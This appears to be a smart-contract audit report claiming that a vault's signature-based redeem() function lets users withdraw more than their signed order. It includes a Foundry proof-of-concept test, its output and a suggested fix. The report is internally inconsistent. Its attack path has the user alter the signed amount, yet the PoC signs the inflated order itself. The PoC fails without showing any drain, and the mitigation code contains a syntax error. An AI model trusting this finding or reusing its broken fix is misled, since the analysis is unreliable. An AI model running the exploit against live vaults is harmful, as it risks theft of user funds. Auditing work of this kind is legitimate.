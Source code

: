 ### [H-02] Missing validation of requested amount allows over-redeem in redeem() function

_Severity:_ High

_Source:_ https://github.com/sherlock-audit/2025-07-mellow-flexible-vaults-Yahaya-Salisu/blob/main/flexible-vaults%2Fsrc%2Fqueues%2FSignatureRedeemQueue.sol#L13-L28


### Summary

The `redeem()` function in `signatureRedeemQueue.sol` extents `signatureQueue` to enable instant share redemption from a vault without the usual delay of on-chain oracle processing.

The function calls `validateOrder()` and both of the functions do not check if the `requested > ordered`, meaning that if a user calls `redeem()` with a requested amount that exceeds ordered amount, the redemption will still proceed even if the `requested > ordered`, this allows users to potentially drain the vaults

```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

  // ⚠️ BUG: there's no check to ensure requested <= ordered
        if (order.requested > vault_.getLiquidAssets()) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

// burns the shares without checking if requested > ordered
        vault_.shareManager().burn(order.recipient, order.ordered);

           ...

        emit OrderExecuted(order, signatures);
    }
```

This bug is similar in nature to `[H-01]` found in `RedeemQueue.sol`, but due to the separation of contract logic and exploit surface, this report addresses a distinct instance.

### Root Cause

SignatureRedeemQueue.sol#L13-L28 https://github.com/sherlock-audit/2025-07-mellow-flexible-vaults-Yahaya-Salisu/blob/main/flexible-vaults%2Fsrc%2Fqueues%2FSignatureRedeemQueue.sol#L13-L28

### Internal Pre-conditions

1. If a trusted admin or validator has signed a message granting a user an ordered amount, which can be redeemed via `SignatureRedeemQueue.redeem()`.

### External Pre-conditions

1. A user has to get signed ordered amount first and then calls `redeem()` with a `requested > ordered`.

### Attack Path

1. A user got a valid signed order for `1,000`.

2. And then modifies requested amount to `1,010` even though the signed ordered is `1000`.

3. And the user calls `redeem()` with valid signatures and redemption succeeds as long as vault has >= 1,010 in liquid assets.

### Impact

1. This vulnerability allows a user to redeem more assets than they are allowed to redeem, and inflating their authorized withdrawal by exploiting a missing requested validation.

2. And this leads to permanent imbalance in the vault, dilution of shares, and potential loss of funds for other users.

### PoC

The PoC below shows how a user got signed ordered of 1,000 and calls redeem with a `requested > ordered`, but the transaction fails due to InsufficientAsset in the vault.

If the vault has sufficientAsset, the user can redeem requested amount even though `requested > ordered`.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.25;

import "../../Fixture.t.sol";
import "../../Imports.sol";
import "forge-std/console.sol";

contract SignatureRedeemQueueTest is FixtureTest {
    address vaultAdmin = vm.createWallet("vaultAdmin").addr;
    address vaultProxyAdmin = vm.createWallet("vaultProxyAdmin").addr;
    address user = vm.createWallet("user").addr;
    address asset;
    address[] assetsDefault;

    function setUp() external {
        asset = address(new MockERC20());
        assetsDefault.push(asset);
    }

    function testRedeem() external {
        Deployment memory deployment = createVault(vaultAdmin, vaultProxyAdmin, assetsDefault);

        uint256 signerPk = uint256(keccak256("signer"));
        address signer = vm.addr(signerPk);
        address[] memory signers = new address[](1);
        signers[0] = signer;
        (Consensus consensus,) = createConsensus(deployment, signers);
        SignatureRedeemQueue queue =
            SignatureRedeemQueue(addSignatureRedeemQueue(deployment, vaultProxyAdmin, asset, address(consensus)));

        uint256 amount = 1000;
        uint256 requested = 1000 + 10;

        ISignatureQueue.Order memory order = ISignatureQueue.Order({
            orderId: 1,
            queue: address(queue),
            asset: asset,
            caller: user,
            recipient: user,
            ordered: amount,
            requested: requested,
            deadline: block.timestamp + 1 days,
            nonce: 0
        });
        IConsensus.Signature[] memory signatures = new IConsensus.Signature[](1);
        signatures[0] = signOrder(queue, order, signerPk);
        {
            Oracle oracle = deployment.oracle;
            IOracle.Report[] memory reports = new IOracle.Report[](1);
            uint224 price = 1e18;
            reports[0] = IOracle.Report({asset: asset, priceD18: price});
            vm.startPrank(vaultAdmin);
            oracle.submitReports(reports);
            oracle.acceptReport(asset, price, uint32(block.timestamp));
            vm.stopPrank();
        }

        vm.prank(address(queue));
        deployment.shareManager.mint(user, amount);
        MockERC20(asset).mint(address(deployment.vault), amount);
        
        console.log("Vault token balance:", MockERC20(asset).balanceOf(address(deployment.vault)));
        console.log("Requested:", order.requested);
        console.log("Ordered:", order.ordered);

        vm.prank(user);
        queue.redeem(order, signatures);

        assertEq(MockERC20(asset).balanceOf(user), requested, "User should receive assets");
    }

    function signOrder(SignatureQueue queue, ISignatureQueue.Order memory order, uint256 pk)
        internal
        view
        returns (IConsensus.Signature memory)
    {
        bytes32 hash = queue.hashOrder(order);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, hash);
        return IConsensus.Signature({signer: vm.addr(pk), signature: abi.encodePacked(r, s, v)});
    }
}
```


Run test with
```bash
forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
```

Test Output
![PoC](https://github.com/user-attachments/assets/f9bc1703-a3b6-419e-82b7-b4e27809b55f)

```bash
$ forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
[⠘] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠃] Solc 0.8.25 finished in 49.63s
Compiler run successful!

Ran 2 tests for test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[PASS] test() (gas: 185)
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)
Logs:
  Vault token balance: 1000
  Requested: 1010
  Ordered: 1000

Traces:
  [39807988] SignatureRedeemQueueTest::testRedeem()

                               ...

    │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    └─ ← [Revert] InsufficientAssets(1010, 1000)

Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 39.77ms (31.57ms CPU time)

Ran 1 test suite in 4.12s (39.77ms CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)

Encountered a total of 1 failing tests, 1 tests succeeded
```

### Mitigation

```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

// FIX: after checking vault liquidAsset, check if requested > ordered 
        if (order.requested > vault_.getLiquidAssets(), || order.requested > order.ordered) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

        vault_.shareManager().burn(order.recipient, order.ordered);
      ...
        emit OrderExecuted(order, signatures);
    }
```
